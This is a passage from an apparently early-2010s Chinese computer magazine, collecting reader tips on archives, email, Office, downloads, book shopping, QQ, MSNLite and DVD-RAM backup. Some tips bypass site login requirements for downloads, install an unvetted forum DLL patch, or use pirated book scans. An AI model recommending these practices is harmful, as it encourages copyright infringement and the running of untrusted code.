此外，360压缩还有一个亮点就是压缩包安全监测功能，某些骗子网站会在压缩包中捆绑病毒、木马，若不小心打开这个压缩包，就会中毒。对于存疑程序，它会提示“此文件包含360云安全未知的程序”。对于包含病毒木马的压缩包，会在第一时间截住并警告。

## 邮件大小超标 Foxmail替你分身

由于工作需要，小秦经常需要向上级部门发送报表或其他文件，她使用的是Foxmail，有时由于附件的个头太大，难免受到服务器的限制，导致邮件发送不成功，小秦想着最好能为附件设置一个界限，如果附件大小超过这一界限，就进行分割，这样就不会出现发送不成功的尴尬了……
Foxmail 7可以通过设置解决邮件大小超标的问题，操作非常简单，右击需要限制附件大小的邮箱，选择“属性”打开账号管理窗口，切换到“高级”选项卡，勾选“发送邮件时拆分邮件，如果邮件大小大于”复选框，注意此值必须介于50和3000之间，确认之后即可生效。
以后，如果邮件的大小超过设置值，Foxmail会在发送时按照设置对附件进行自动分割，分割时每份邮件的大小被统一限制在100KB，这样就不用担心邮件大小超标的问题了。

# 紧急情况“空手”看docx文档

小林出差在外收到教研组长发来的一份教研通知，是docx格式的Word公文，但他的笔记本内只安装了Office 2003版本，而且没有安装高版本的兼容包(FileFormatConverters.exe)。自然打不开了，可出现在外安装兼容包或者升级Office办公软件显得很不现实。其实docx格式的文件本质上是一个ZIP压缩包文件。docx格式文件的主要内容是保存为XML格式的，但文件并非直接保存于磁盘，它是保存在一个ZIP文件中，然后取扩展名为docx。因此只要将docx格式的文件后缀改为ZIP，然后解压或者直接用WinRAR解压软件打开，就可以看到解压出来的文件夹中有Word这样一个文件夹，它包含了Word文档的大部分内容，而其中的document.xml文件则包含了文档的主要文本内容，图片在media文件夹内找就行。小林的公文内容就在里面了。

(文/行云流水)

# 手边的简单图片处理工厂

Office 2010一个非常贴心的功能就是抠图，不过它称为“删除背景”。在PowerPoint或Excel或Word中插入你需要的图片，点击图片，就出现“图片工具格式”一栏，在最左边有“删除背景”图标，点击它，进入后它会自动猜想你想要抠的图，但现在它还不符合我们的要求，所以要修改一下。拉一下方框的边缘，它会智能计算出你想要的部分，点击“标记要保留的区域”，选择你要抠出来的部分，还可以在你需要的地方拖出一条直线来，它就会自动加进这部分。点击“标记要删除的区域”，选择你不要的部分。假如不小心多点了一个标记，可点击“删除标记”，在你要删除的那个标记上点一下。还有一个很好用的功能就是“发光和柔化边缘”。右击图片，选择“设置图片格式”，选择“发光和柔化边缘”。“发光”就是让图片的边缘有发光的感觉，“柔化”就是去掉图片边缘，像是被云挡住了的感觉。

(文/原健钏)



# 谷歌地球运行慢 几招加速

本本买了几年，配置陈旧，如今连运行谷歌地球都不怎么流畅，这该如何是好？试着重新配置谷歌地球，更改图形模式，删除缓存文件，应该会有所缓解。首先打开谷歌地球（以谷歌地球6.0.3.2197多语言版为例），在菜单中选择“工具→选项”，点击“3D视图”标签，下方有“图形模式”一栏，在OpenGL模式和DirectX模式之间来回切换一下，你的谷歌地球在哪种模式下更能流畅运行就选用哪种模式。然后点击“高速缓存”标签，及时清理一下缓存文件，也能有效地提高谷歌地球的运行速度。这里可以点击“清除内存高速缓存”来达到这一目的。另外如果你在“图层”中启用了“3D建筑”选项，而你的电脑配置又比较落后的话，也是较为拖速度的，建议这里也一并取消其勾选。

(文/阿山)



# 批量给压缩包添加公司简介

小张把公司的产品图片按类别做成了压缩包，正准备发布到公司主页上供客户下载，老总走过来交代：“最好在每个压缩包中加入公司简介。”小张知道公司简介就是一个TXT文件，如何在上百个压缩包中添加TXT文件呢？一一解压后再添加，显然工作量很大。小张并不慌张，他用软件“winrar压缩包助手”（下载地址：http://www.downxia.com/downinfo/3982.html）瞬间就搞定了。软件运行后，单击“待处理压缩包列表”下的“添加”按钮，把所有压缩文件添加进来，然后通过“向压缩包中添加的文件列表”下的“添加”按钮，加入公司简介文件，“处理方式”可以选中“在原包基础上处理”，这样面对较多压缩文件时处理速度较快，最后单击“开始”按钮即可。不但如此，小张平时也爱从网上“借鉴”其他公司的资料，如果想从下载的压缩包中批量删除掉其他公司的简介，可以单击“从压缩包中删除的文件列表”下的“添加”按钮，指定压缩包中的公司简介文件，“处理方式”选择“解包处理后打新包”，这样可以删除多级目录下的文件，删除更为干净。

(文/曹春华)

# 回到还原点找文件 其他软件仍不丢失

Windows 7和Vista的系统还原功能虽然厉害，但使用起来总有些别扭，我最近误删了一个文件，想从之前的还原点中取回来，假如直接把系统恢复到以前的一个还原点，固然能找回文件，可之后安装的软件、更新文件、用户文档又会全部丢失。想找个两全其美的办法，既取回还原点中的文件，又保证当前系统中安装的软件不会丢失，最终我是通过System Restore Explorer (http://nicbedford.co.uk/software/systemrestoreexplorer/)，成功地把需要的文件从之前的还原点中偷了过来。运行后在打开的界面中可以看到系统中的各个还原点，选中你需要的文件所在的还原点，单击Mount按钮，便会通过资源管理器打开该还原点所对应的分区，其中的文件一览无余，接下来在资源管理器中找到想要恢复的文件右击鼠标，将其复制后暂时保存在当前系统中的某个位置，单击Unmount按钮结束查看并关闭界面，再将文件存放到原来的位置便一切OK。需要注意的是，通过还原点打开的分区，在资源管理器界面上方会有HarddiskVolume ShadowCopy7字样，而正常打开当前系统分区时无此字样，这点一定要分清。

(文/孙敏)

# 加个“透明锁” 让展销演示顺利进行

单位举办产品展销活动，在展厅内使用电脑和大屏幕方式播放PPT，可是第一天中有几次参观者无意间动了键盘或鼠标，导致PPT演示中断。领导很着急，让我想办法锁定键盘和鼠标，同时还要让演示继续进行，即使有人有意敲击键盘和鼠标，都不会造成演示中断。经查询对比，最后从http://www.piaodown.com/soft/52444.htm下载了KeyboardLock 1.1.4135绿色版这款免费的电脑鼠标键盘锁小工具（运行时需要.NET FrameWork3.5组件的支持）。在主窗口中的Lock password栏中输入锁定密码（默认为cake），在Unlock password栏中输入解锁密码（默认为dart），点击Start，当开始全屏播放演示PPT后，直接通过键盘输入锁定密码字符，输入时并不出现锁定密码输入框和任何提示，只要密码正确即可锁定系统，将键盘鼠标彻底锁定。该软件加锁和解锁时不出现界面，这样就给系统加了一把“透明锁”，让别人想不到键盘和鼠标不能使用的原因。当需要操作电脑时，只需直接在键盘上输入解锁密码，即可恢复鼠标键盘的所有功能，每次使用这把“透明锁”时，都可直接设置不同的锁定或解锁密码，不怕上次密码泄露而造成不必要的麻烦。

(文/王彦博)

## 借助无线 打造客厅互联网电视

互联网电视是新一代的电视，它既能够接收传统电视内容，又能够上网搜索、下载、播放视频，很受大家的喜爱。我也有些心动了。但是，互联网电视价格不菲。经济危机时代，一切从俭，经济不宽裕的我，总不能放着家里刚买没两年的大电视不用，再去买昂贵的互联网电视吧！不甘心的我，最后还是发扬独立自主精神，用家里客厅中已有的电视和卧室的一台能上网的电脑，配合无线显示技术，打造出了自己的节约型互联网电视。经验介绍给大家，希望对你也有用。

## 一、准备无线接收盒

我要把电脑上的内容扩展到电视机上，需要在电视上接一个支持无线显示的接收器。无线显示接收器，支持最新的无线显示WiDi (Wireless Display) 协议。通过它，我就可以将支持WiDi的电脑、上网本、笔记本或平板设备上的内容传输到大屏幕电视机上。

## 二、设备安装与设置

- 1. 连接HDMI线缆
将HDMI线缆的一端与无线显示接收器连接，另一端与电视机的HDMI接口连接。要注意的是，不要带电插拔，因为HDMI接口设备需要在冷启动下才能检测到。
- 2. 切换电视模式
打开电视机，用遥控器来选择信号源输入类型，必须选择HDMI模式。如果有必要，可以查看电视机说明书。

## 三、收看互联网节目

最后，在采用支持无线显示的电脑上（目前Lenovo、Sony、HP、Samsung、ASUS、Dell、Toshiba等笔记本很多型号都可以支持），根据说明书作设置。打开视频网站播放电影或电视剧，就可以将其上的内容传输到大屏电视机上了。
如此一来，即使是电脑在卧室里，关上门播放，大家也能在客厅的大电视上共享网络节目了。当然了，如果电脑中播放的是真正的高清大片，而非网络上的那些所谓的在线“高清”大片，效果将更加震撼。

> 小提示：
我的显示盒是单独购买的。有的无线显卡本身就带有一个无线信号接收盒子，所以在这种情况下就不用单独购买无线接收盒。例如，影驰GTX460 WHDI显卡包括有一块支持WHDI的GTX460显卡，还有一个无线信号的接收盒，通过无线显卡发射的信号，接收盒可以为液晶电视等的显示设备提供HDMI的音频和视频信号。当然，如果你的电脑像我的一样，上面只有支持这个功能的显卡，没附带有信号接收盒，那么就需要单买一个接收盒了。总之，组成这套方案，根据自身情况不同，你的付出要么是买一个带接收盒的支持无线输出的显卡，要么是只买一个接收盒子。所需费用只有几百元，最多千把元，远远要比买一台网络电视省钱得多。

（文/江苏 蒋小春）

## 藏起桌面图标 打造滑出面板

许多人都喜欢把自己所爱的人物或风景照片设为电脑桌面背景。但是，桌面上出现的图标往往会遮挡了照片中的某个部位，看起来总有一种不舒服的感觉。于是看到有人干脆把桌面图标全部藏起来。但是，当桌面图标统统藏起来之后，桌面背景虽变得绝对纯净漂亮了，但要访问原来桌面的程序或文档就变得麻烦了。其实这个问题不难做到两全。

### 小技巧：如何藏起桌面图标

- 只需在桌面空白处点击鼠标右键，选择快捷菜单中的“排列图标→显示桌面图标”命令，去掉该命令前面的对钩，桌面图标马上全部消失，桌面就变得干干净净了。

桌面图标藏起来之后，我们可以做进一步设置，将桌面的所有图标设置成一个类似于QQ面板之类可以贴靠在屏幕四周自动弹出隐藏的样式。这样设置以后，平时在桌面上你看到不到任何桌面图标，但当鼠标掠过屏幕的某个边框时，桌面便滑出来了。
具体设置方法如下。
第一步：右键点击WinXP任务栏，将任务栏的锁定去掉，即保证右键菜单中的“锁定任务栏”命令未被选中。
第二步：将我们上面建立的任务栏“桌面”按钮用鼠标拖动到桌面上，这时，在桌面上会出现一个“桌面”窗口。窗口里边是我们原来在桌面上看到的所有图标。
第三步：用鼠标点住“桌面”窗口的蓝色窗口标题不放，将窗口拖动到屏幕的左侧或上端，这时你会发现这个“桌面”窗口已经被紧紧地贴在了屏幕的边框上了，但还没有自动藏起来。

> 小提示：
不建议将窗口挂靠在屏幕的右边或下边，尽管这样也能实现，但因桌面右侧常常是垂直滚动条出现的位置，桌面下方则是任务栏弹出的位置，容易发生操作混乱，所以推荐挂靠在屏幕左侧或上端为佳。

第四步：下面我们设置让“桌面”面板自动隐藏。右键单击“桌面”面板上的“桌面”标题，在弹出的菜单中选择“前端显示”和“自动隐藏”两项。“前端显示”可以保证我们在操作任何软件的过程中可以方便地弹出桌面面板。
第五步：右键单击“桌面”面板上的“桌面”标题，在弹出的菜单中选择“查看→大图标”，这样可保证滑出的“桌面”面板中显示漂亮的桌面大图标；当然，如果你喜欢小图标则可省去此项。
经过以上设置之后，以后你在使用电脑的过程中，不管当前是在桌面上还是在窗口下工作，只要随时把鼠标滑动到屏幕左侧边框处，就可以看到自动滑出的桌面面板了！

### 小技巧：打造一个弹出式“桌面”

我们不仅可以打造一个滑出式“桌面”，还可以将桌面图标设置为一个弹出式“桌面”。在任务栏的空白处点击鼠标右键，在弹出的快捷菜单中选择“工具栏→桌面”命令，之后你会发现在任务栏上出现一个“桌面”按钮，点击这个按钮会弹出菜单，从中选择你需要的桌面程序即可启动了。

（文/亦云）

## 拆掉下载门槛 让下载更自由

网络世界，就是共享世界，但许多供用户下载的资料要获取时，并非一件容易之事。要么需要注册登录，要么需要专门的下载工具，十分令人头痛！在提倡共享自由的今天，如何拆掉这些人为的下载门槛，还下载一片自由的天地呢？

### 无须注册，百度豆丁文档直接下

百度文档和豆丁网都是储量丰富的在线互动式文档分享平台，可惜的是，当我们需要保存其中的文档时，单击“下载文档”，都会弹出“欢迎登录”的对话框，好不令人烦恼。如果你不想进行烦琐的注册、登录步骤，可以利用“易读百度豆丁文库资源下载器”（下载地址：http://www.skycn.com/soft/60838.html）进行直接下载。
软件运行后，首先要指定文档下载位置，单击“参数设置”按钮，打开“设置用户信息”对话框，单击“文档下载位置”后的输入框，即可从弹出的“浏览文件夹”窗口中指定文档下载位置，依次单击“确定”、“保存”后返回软件主界面。当我们浏览到需要下载的百度或豆丁文档时，只要把文档地址复制到“页面地址”中，软件即可自动分析、下载文档至指定文件夹中，就这么简单方便！

### 抛弃视频网站专用下载工具

需要下载土豆网页中播放的视频，会提醒你使用itudou专用工具，而下载酷六网站中的视频，则要求你下载极速酷六，多麻烦！如果你使用的是最新版傲游，下载这些视频网站的视频，就变得很简单了。鼠标悬停于视频播放窗口，弹出悬浮窗口，单击悬浮窗中的“保存”，显示“资源列表”，再单击列表中的“保存”就可以下载。你也可以单击“复制链接”，然后使用专门的下载软件进行下载。

### 多种网盘文件通吃

如今网盘多如牛毛，但需要下载不同网盘中的文件往往也需要专门的下载工具。我们利用“Mipony”（下载地址：http://www.downgod.com/soft/6210.html）可以通吃包括115网盘、Rapidshare、Megaupload、Filesonic、Fileserve、MediaFire、4shared在内的100多个网盘文件的下载。而且，该软件支持断点续传。
初次运行后，应该切换到中文界面：单击“Options”，把“Language”设置为“中文（简体）”并单击“OK”即可。
Mipony网盘下载利器使用十分简单，只要把网盘文件的网页地址或下载链接复制下来，然后单击“添加链接”，粘贴入复制的地址，然后单击“下载选中项”即可开始下载。下载前，最好在“选项”中指定下载位置。

### 迅雷胃口大，让专用下载链接失效

许多软件的下载链接都使用的是专用下载链接，比如快车、旋风之类。如果未安装快车、旋风下载工具，就无法进行下载。有的用户使用“专用链接转换”软件来转换为通用的下载链接，这种方法毕竟有点麻烦。其实，我们只要用一款小补丁就能让迅雷软件也能下载快车、旋风专用下载链接。
先去http://helpbbs.xunlei.com/read.php?tid=357217下载迅雷7专用链通用补丁文件。下载后，把压缩包解压，然后将里面的LinkSimulate.dll和注册组件.bat这2个文件全部剪切到安装迅雷的所在目录的BHO文件夹内，然后双击打开注册组件.bat提示组件注册成功即可。
组件注册成功后，就可以用迅雷下载所有的快车专用链接和旋风专用链接的文件了，包括快车官方和旋风官方的文件下载。打开浏览器，看到快车或旋风下载链接，直接按鼠标左键即可。

（文/曹春华）

## 网上购书 省钱有道

通过网络购书很方便，在网上书店找书绝不会像到实体书店找书那么累。因此，现在越来越多的人少去书店买书了。当当、卓越等这些网上商城都有专业的图书配送服务，让你足不出户就能买到自己需要的图书。但是，网上购书也不是绝对比到实体店要好，弄不好也可能让你花冤枉钱。其实，网上购书在方便的同时，也有许多门道可循。掌握了这些门道，可以让你少花冤枉钱，省下钱买更多的书。

### 一、盗版做参谋，少花冤枉钱

我从来不主张人们阅读盗版图书，为了民族文化产业的长久大繁荣，我还是提倡大家都买正版书的。但是，在上网购书前，我也常会用此书的盗版图书做参考，来决定正版图书该不该买。这让我少花了不少冤枉钱。
在想买一本图书的时候，有时，仅凭当当或卓越等网站上的图书简介和目录，还是看不出图书的内容质量到底如何。在这种情况下，你不妨上网搜索一下，往往能找到你要的图书的扫描版（一般为PDF格式，也有其他格式的），下载浏览一下其内容。如果名副其实，那么你就可以毫不犹豫地出手买正版。反之，如果你浏览的感觉是，这种书的内容简直太烂了，竟然还有人扫描，把它供奉在网上，白给我也不要，那么，你也就没有必要为它而花冤枉钱了。

> 小提示：除了可以用盗版图书做参谋之外，一些图书还在知名门户网站（如新浪读书频道）或读书网站上开辟有正版试读栏目，将图书的一部分内容放上供读者阅读。如果你在网站上找不到某新书的盗版参考资料，那么，也可以用此类网站上的图书试读内容来衡量该不该买这本书。这样一来，或者以盗版借鉴，或者以正版试读为参考，基本就能够确定一本书是不是值得买了。从而有效地避免了盲目买书，买了以后没看几眼因不合心意而随意丢弃，造成的不必要资金浪费。

### 二、抓住促销时机，杜绝随意出手

一般来说，网店每年在特定的日期都会有促销活动。比方说店庆纪念日，国家的重大节日，网店举办的特别活动等都有降价促销活动。这些时候的图书价格往往会比平时有更多的折扣，不但售价下降还有大量的礼券赠送。例如，后起之秀——99书城，如果你能充分利用99的各种活动，会比当当和卓越都便宜，预存礼金、幸运卡、书香卡、电子优惠券，各种不定期举行的特卖，林林总总加起来会便宜不少。如果你要买的图书不是急着要阅读的那种，而是用来做收藏或打算永久阅读的那种工具书，那么，不妨先把自己看中的书收入到你的购书账号收藏夹中，等待网店举办庆祝活动降价促销的时候，再下单也不迟。
当然了，你也没有必要时不时地去看书降价了没有，有没有促销。其实，有些网站本身就有商品降价通知服务功能，你只要将你中意的商品向网站提交降价通知请求，当商品降价时，网站就会以短信或邮件的形式通知你了。

### 三、货色完全一样，价格相差悬殊

你也不要死抠住一个当当网去买书。当然了，我不是说当当网不好，我也常去当当网买书，只是我不一定每本书都要到当当去买。其实，同样的一本书，两个网店在同一时间的销售价格可能相差很大。选中一本书的时候，你可以先别急着下单，不妨多到几个网店去看看这本书的价格，看看哪家的价格最低。常言道“货比三家”。书的质量你可以从介绍中一看便知是不是一个版本和出版社，同一个出版社的同一个版次的书，几家的品质一般不会有差别。挑最便宜的一家下单吧，也许一本书就能为你省好几元甚至几十元呢。

### 四、比价找帮手，购书再返现

前面提到过货比三家再决定，但是，对于上网买书不多的用户，因为自己知道的网上售书网站不多，也不知该到哪儿去比，其实，目前兴起一种集搜索、比价、购物返现为一体的购物网站。这类网站采用技术手段将网上商城的在线商品自动抓取到自身的索引库，经过归类整理，把同一商品不同商城的报价信息一一呈现，用户可以对商品价格、配送方式、支付方式、售后服务以及商城交易信誉等做出比较，从而帮助用户做出正确的购买决策。用户只需提交想买的商品名称型号，就可以比出商品最低价，在享受该商城最优惠价格后还可拿到一定比例的现金返还。例如：比比宝就是这样一种网站（网址：http://www.bbbao.com）。它专门开辟有“图书比价”栏目，让你能够以最快速度找到最经济的图书，同时得到返现优惠，你只需在网页上选择“图书比价”按钮，输入图书名称点“搜索”按钮，比价工作就由网站为你完成了。

### 五、价格固然重要，运费不容忽视

也许你经过你死我活的挑选和比拼，终于找到了自己想要的一本书的最便宜销售网店，你兴冲冲地开始下单，但到了最后一步才被告知，你需要付出几元甚至十几元、几十元的运输费。书费和运费加起来一算，还不如在标价高的那家去购买，因为人家是免运费的。因此，在选中价格后，不妨先别急着下单，而是看看其协议中是否有运输免费条件，或者当前是不是正举办免费送活动。如果不需要运费，而价格又是最低的，那当然是不二之选了。比如当当网的配送价格一般在5~10元，不过经常会有活动免除送货费；卓越网的配送价格则自2007年6月初至今，全场免费配送。买哪家的，当然要把书费和运费加起来衡量，最省钱的才是首选。

> 小提示：问题图书退换，省下车马费用亲自跑新华书店买书，出现缺页和装订错误，不可能有人上门为你调换！只有你自付车马费并花时间去调换了。网上购书则不会有这些付出。发现错书，提交换货申请，工作人员来，拿来新书，错书拿走，不用你花时间去换，更不用打车钱。时间就是金钱，车马费当然是金钱，省下的也是白花花的银子。
（文/遥远）

## 去除QQ群广告 我有妙招

为避免广告的骚扰，人们往往用QQ去广告工具来屏蔽QQ迷你新闻、左下角文字链接等广告信息；更有甚者，有的朋友干脆直接使用去广告破解版的QQ来和好友进行聊天。但即便这样，在QQ群里边聊天时，我们还是能够看到广告。下面，笔者就给大家介绍一下如何去除QQ群中的广告，从而让我们的QQ彻底与广告无缘。
先关闭QQ并打开“C:\Users\syhl999\AppData\Roaming\Tencent\qq”目录（C盘为系统盘，syhl999为当前登录的系统管理员账户，下同），然后打开该目录下的“Misc”文件夹并将该文件夹中所包含的所有文件予以删除；接着再右击这个名为“Misc”的文件夹，选择“属性”，打开“Misc属性”对话框的“安全”选项卡；再选中图2中的“Administrators (syhl999-PC\Administrators)”选项并单击“编辑”按钮，在打开的“Misc的权限”对话框中第二次选中“Administrators (syhl999-PC\Administrators)”选项；最后勾选“拒绝”下边所有的复选框并单击“确定”按钮即可。这样一来，当我们在QQ群中和好友进行聊天时，就再也看不到QQ群中的广告信息了。
（文/闫华礼）

## 单屏多任务 操作更轻松

对大屏幕显示器进行分屏操作，这样的软件还是挺多的，在网上一搜就是一大堆。在此仅推荐Lenovo SplitScreen，这是联想小Y系列自带的智能分屏软件，但在其他品牌上也能正常安装使用，操作起来非常简单。安装完成后，在右下角Lenovo SplitScreen图标单击右键选择“自定义分屏”，就会在桌面上显示7种分屏比例，选择合适一种点击确定即可。虽然不能再自定义更多的分屏方式，但这其中比例应该能满足我们日常的使用需求了。解决了分屏问题以后，接下来就是如何让多鼠标能独立操作各个任务的问题了。下载MultiPointer软件，这是一款多鼠标支持软件，最多支持五个鼠标同时操作，并且可以单独设置鼠标移动速度。经测试，软件在XP和WIN7系统中均可正常运行。第一次执行会有一个驱动安装提示，安装完毕后重启，即可打开使用了。除了这个软件之外，TeamPlayer也是一个不错的选择。这是一款商业版的多人协作软件，免费版最多只支持三套键鼠同时使用。相信个人用户的话已经足以满足使用需求了。使用时，每增加一套鼠标，就会在系统鼠标样式旁添加一个其他颜色的色点，非常明显。软件测试结果见http://dv.gd/3205，说的非常详细了，本文不再赘述。
（挑战者/飞天小猪）

## 云转码 打造免费移动影院

在手机上看电影受制于不同的支持格式，在下载完成后总需要再单独转换，好不烦琐。其实，借助于迅雷，完全可以边下载边转码，下载完成直接就是所需的格式了。新版迅雷提供云转码功能，可以将我们离线下载中的视频通过高速的云服务器转化为手机视频，为我们节省寻找手机资源的时间，节省视频转码时间，更能省下3G下载流量和网费。

### 一、离线下载视频资源

找到需要下载的影片，添加到迅雷中下载，单击“启动离线下载”按钮将其转为离线下载文件，也可以选中多个欲下载的资源，右击，选择“批量离线下载”命令来将它们批量转化为离线下载文件。

### 二、进行云转码操作

之后，我们在迅雷7中单击左侧“远程服务”下的“离线下载”，在打开的“离线下载”中单击“已下载”，选中已下载的视频资源，单击右上角的“云转码”按钮，之后，会弹出窗口，要我们选择转码后的分辨率和格式，再单击“开始转码”按钮开始转码。

### 三、取回云转码资源

云转码资源被保存在离线下载服务器，要下载到本地，我们只要在“离线下载”中单击“云转码”，之后再选中已经转码完成的资源上方的“下载到本地”按钮，用迅雷7下载即可。因为是从迅雷的离线下载服务器下载资源，所以速度特别快。下载后的视频直接装到手机和MP4等移动设备中就可以播放了。这样，我们用云转码就可以不花钱而打造自己的移动影院了。
（文/江苏 沈澄）

## 优盘无地可容 光盘扩容备份

临时备份数据，现在人们多用优盘来完成。但是，如果优盘容量不够用怎么办？其实，如果你有刻录机的话，买几张DVD-RAM或DVD-RW盘，将光盘当作移动硬盘来用，这样每多一张这样的光盘，你就多了一个4GB多的备份空间。日常的重要数据放在里边，可擦写，很方便，将可擦写光盘变成移动硬盘使用，不像使用普通一次性刻录盘那样简单，使用过程中有些说道，因此有必要介绍给大家。

### 一、在Windows XP下实现

第一次使用DVD-RAM光盘，其文件系统采用UDF格式，因此必须对其进行格式化，但在格式化之前，必须关闭DVD-RAM的自动录制功能，否则将无法使用FAT32格式，这样在Windows XP下，用户可以直接对DVD-RAM盘进行格式化、复制、粘贴文件、移动文件等操作。
- 1. 第一步：在DVD-RAM磁盘上点鼠标右键，然后选择“属性”，在弹出的属性对话框中选择“录制”，然后将“在这个设备上启用CD录制”前面的钩去掉即可。
- 2. 第二步：右击“我的电脑”后选择“管理”选项，然后展开“存储→磁盘管理”，之后会出现电脑内所有的磁盘驱动器，右击DVD-RAM磁盘驱动器，选择“格式化”选项，接着在格式化界面上选择“FAT32”进行格式化即可。
- 3. 第三步：格式化完毕后，我们便可以和移动硬盘一样对DVD-RAM光盘进行文件复制、粘贴和删除等操作，这样一款超过4.0GB的免费移动硬盘就诞生了。

### 二、借助 Nero InCD 来实现

在Windows XP以外的系统中可能无法对DVD-RAM光盘正常格式化，另外还有已经进行了数据刻录的DVD-RAM盘，此时DVD-RAM盘显示为“CDFS”文件系统，这样在Windows XP同样无法正常格式化，我们必须将“CDFS”转换成“FAT32”，因此必须借助Nero InCD软件来实现。
- 1. 第一步：安装Nero InCD后重启系统，进入“我的电脑”后右击DVD-RAM盘符标志，选择“InCD 格式...”选项，在弹出的格式化界面中，先别着急执行格式化，点“选项”弹出InCD程序选项窗口。
- 2. 第二步：点选“程序选项”下的“启用高级格式化选项”选项，之后点“应用”返回格式化主界面，此时在InCD格式化主界面的“选项”下多出一个“高级选项”。
- 3. 第三步：进入该选项后在文件系统中选择“FAT32”，点“确定”按钮后返回格式化主界面，此时点“开始”按钮即可进行格式化了，格式化完毕后即可将DVD-RAM当作移动硬盘一样操作了。

> 小提示：在格式化之后，就可以像使用硬盘那样使用DVD-RAM了，随时可以运用拖拽方式进行文件的拷贝与移动，当然也可以在DVD-RAM上直接删除指定的文件，但格式化好的DVD-RAM就不能再在Nero等直接刻录软件中使用了，否则会报告光盘非空，不能写入。
另一个需要注意的问题是，DVD-R/+R/-RW/+RW的标准存储容量是4.38GB，但单面DVD-RAM的容量要少一些，为4.26GB，所以在使用时不要以其他DVD刻录标准的容量水平为准（尤其是在制作视频剪辑时）。
学会了这种方法之后，即使你的刻录机购买时没有带这种附属品，你也可以花少量的钱买几张DVD-RAM（或DVD-RW也行），作为对优盘备份的扩充，备份自己的日常数据了。
（文/秋蝉）

## 用记事本轻松获取系统配置信息

新买了电脑或新装了电脑，需要详细了解自己电脑硬件和操作系统的配置情况。如果能将本机的系统配置信息以文本的方式详细记录下来，供以后查看非常方便，在通常情况下，获取系统信息我们需要借助一个系统工具软件去完成。这里，我只用系统的记事本，就能很轻松地获取这类信息的文本文件。
下面是具体的实现方法：
第一步：编辑一个TXT文本文件，文件可命名为“获取系统配置信息.TXT”，在文件中只输入以下一行内容，然后保存退出。
`systeminfo >D:\系统配置清单.TXT`
第二步：将刚才建立的TXT文件的扩展名改为.BAT。
第三步：双击执行上面建立的“获取系统配置信息.BAT”文件。
第四步：到D盘根目录下查看收获成果“系统配置清单.TXT”。
（文/雯文）

## 压缩工作量再大 只花主人一分钟

打包压缩文件是我们进行阶段性重要资料保存时要做的一件事。如果你要压缩的数据文件很大，足够你等上几十分钟，而这项工作正好赶在下班前要做，难道为了这些资料的备份，你必须推迟下班或把工作推到明天做不成？大可不必！其实，你只要花一分钟时间，下班时告诉你的电脑为你进行数据压缩，完成之后让电脑自己关机，把打包工作完全交给电脑，然后自己正点下班。
假如我的阶段性工作资料全部保存在一个文件夹“我的工作”下，下面介绍具体的操作方法和步骤。
第一步：用Win+E快捷键启动资源管理器，在工作文件夹上单击鼠标右键，在弹出的快捷菜单中选择“WinRAR”命令，在下级菜单中选择“添加到压缩文件”命令，打开“压缩文件名和参数”窗口。
第二步：在“压缩文件名和参数”窗口的“常规”选项卡下输入或通过“浏览”按钮选择存放备份数据包的路径和压缩包的文件名。
第三步：切换到“高级”选项卡下，选中“完成操作后关闭计算机电源”复选框，点击“确定”按钮。
经过如上简单的操作之后，关掉显示器，你就可以下班了。当备份工作完成之后，WinRAR会自动关掉你的电脑主机。
（文/江涛）

## MSN的困惑 MSNlite解决有道

MSN经常登录不上，这反映了国外互联网行业在中国的硬伤，即其往往不允许在中国部署自己的服务器，这就使得它们的应用经常出现一些诸如无法登录、无法使用等问题。此外，MSN局域网文件在传输速度和使用方便性方面也有许多不尽人意的地方。
不过，借助于MSNLite这一本土产品，就可以轻松解决这些问题。它不但能够通过代理搭起访问MSN的桥梁，还能够在局域网内无需添加账号即可聊天，传输文件使用局域网速度，速度高达100Mbps甚至1000Mbps。同时，支持离线文件收发。

### 使用专用代理 顺利登录 MSN

MSN账户无法正常登录，这时我们只要使用MSNLite就可解决问题。从http://www.msnlite.org/download/下载并安装最新的版本（不得低于1.1正式版），打开MSNLite，用MSN账号和密码直接登录。如果MSNLite发现用户无法流畅连接到微软服务器时，就会提示用户开启专用代理功能，并顺利登录MSN。
MSNLite的专用代理就像在用户的电脑和微软的服务器之间架起一座桥梁，让无法连接到微软服务器的电脑可以通过专用代理连接。

### 无需添加好友 局域网直接聊天

当我们登录MSNLite时，单击局域网图标，可以看到局域网中使用MSNLite的用户，直接双击相应好友就可以聊天了。

### 文件高速传输 + 断点续传

对于白领来说，经常需要分享文件，同一局域网内的用户，如果使用广域网的速度，那速度可想而知了。因为目前中国的普通用户广域网速度平均不会高于4Mbps，有的公司就算拉了光纤，如果你把公司所有的带宽全耗光，那网管一定会踢掉你。不过，如果我们使用MSNLite，则可以享受到局域网的传输速度，传文件的速度可以达到网卡的极限（百兆网络可以达到12.5MB/s，千兆网络可以达到125MB/s）！
更值得一提的是，MSNLite还支持断点续传功能，只要是相同的文件，中途发送出现问题了，下次传送时直接将会从断点处开始（必须保存在原先的文件夹下），这样就可以大大节省带宽与资源。在使用高速离线文件传输的同时，断点续传功能大幅提升了用户办公效率。

### 免费收发离线文件

如果有一个重要的档案要发给好友，却发现他（她）已经下线了怎么办？MSNLite为我们免费提供了离线下发发送服务，只要我们是MSNLite用户，就可以给好友直接发送。好友上线后将会收到相应提示的信息，提示下载离线文件，这样一来，是不是十分方便？这个功能十分有用，而且是免费的。
值得一提的是，MSNLite提供了“网页+提取码”的文件提取功能，就算接收方不是MSNLite用户，只要单击相应的链接，也能够进行下载，很好地实现了不同客户端间的离线文件互通。

> 小提示：
★离线文件会自动被打包为zip格式的压缩包文件，这样减少网络传输压力，十分贴心。
★接收方就算使用的是MSN客户端，同样也可以收取离线文件，这显示出了MSNLite的大度与包容！
★MSNLite很智能，可以帮我们找到处在同一个LAN或VLAN中的用户，所以有时找到的人不一定是同一个公司的哦，还有可能是同一个楼里的哦，这样我们又能够交到更多朋友了，真是不错！
（文/江北书生）

## 平面广告“动”起来

平面设计作品是静态的，怎么能动得起来？它又不是动画！其实，这里说的“动”起来，是指作品看起来似乎蕴含着一股韵律，给人一种灵动的感觉。怎么样才能达到这样的效果，让自己的作品看起来不死板？除了自己平时的感悟、深入的发现之外，掌握一些构图技巧，也非常有助于作品的表现力。今天，就让我们从已有的经典作品之中，解读出一些规律。

## 节奏和韵律

说起节奏和韵律，大部分人首先想到的是音乐。头脑中开始盘旋起那些或激昂、或优美的世界名曲。但实际上，在一幅平面设计作品中，同样需要有节奏和韵律，才能让你的作品灵动起来。


